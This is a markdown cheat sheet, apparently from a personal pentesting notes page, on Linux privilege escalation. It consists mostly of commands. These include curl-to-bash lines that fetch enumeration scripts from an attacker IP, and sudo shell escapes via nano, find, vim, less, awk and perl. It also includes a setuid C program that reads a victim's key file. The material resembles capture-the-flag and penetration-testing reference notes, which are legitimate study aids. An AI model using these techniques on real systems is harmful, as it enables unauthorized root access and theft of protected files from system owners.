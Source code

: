 ```yaml
---
author: Marcos Azevedo
date: '2020-06-16T17:38:15-03:00'
linktitle: 'Cheat Sheet :: Privilege Escalation'
title: 'Cheat Sheet :: Privilege Escalation'
categories:
  - cheatsheet
  - exploitation-techniques
  - priv-escalation
tags:
  - cheatsheet
  - priv-escalation
  - exploitation-techniques
  - '#include<stdio.h>'
weight: 10
date updated: '2021-03-25T17:36:52-03:00'

---
```



# Cheat Sheet :: Privilege Escalation

## Using scripts to enum the machine
- [https://github.com/rebootuser/LinEnum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- On the target's machine we can do:
```
$ curl 10.10.14.2/linpeas.sh|bash
$ curl 10.10.14.2/LinEnum.sh|bash
```

-----
## Nano privilege escalation
- This can be used to gain root access on the server.
```
sudo -u root /bin/nano /opt/priv
```

- Nano allows inserting external files into the current one using the shortcut.
```
Ctrl+R
```

/pics/nano-001.png

- The command reveals that we can execute system commands using **^X (Press Ctrl+X)** and enter the following command to spawn a shell.
```
Press Ctrl+X
reset; sh 1>&0 2>&0
```

/pics/nano-002.png

- Now we have a root shell.
/pics/nano-003.png

-----
## Sudo privilege escalation
### Listing allowed ``sudo`` commands
```
$ sudo -l
```

### Impersonating with ``sudo``
```
$ sudo -u victim command
```

### Escalating privileges with ``find`` command
```
$ sudo -u victim /usr/bin/find -exec /bin/bash \;
```

### Escalating privileges with ``vim`` editor
```
$ sudo -u victim /usr/bin/vim

# Inside the vim we can call a shell
:!/bin/bash
```

### Escalating privileges with  ``less`` command
- Open a file using less
```
$ sudo -u victim less /home/victim/key.txt
```

- Inside the less we can call a shell
```
!/bin/bash
```

### Escalating privileges with ``awk`` command
```
# Reading files with awk
$ sudo -u victim /usr/bin/awk '{print $1}' /home/victim/key.txt

# Executing command within awk
$ sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

### Escalating privileges with ``chmod``

- Create the exploit to call a command
```
#include<stdio.h>

int main(void)
{
    system("cat /home/victim/key.txt");
}
```

- Compiling the exploit
```
$ cd /tmp
$ gcc exploit.c -o exploit
```

- Setting the __setuid__ and __setgid__ flags
```
$ sudo -u victim cp exploit exploit2
$ sudo -u victim chmod +xs exploit2
$ ./exploit2
```

### Escalating privileges with ``perl``
```
$ sudo -u victim perl -e 'exec "/bin/bash";'
```
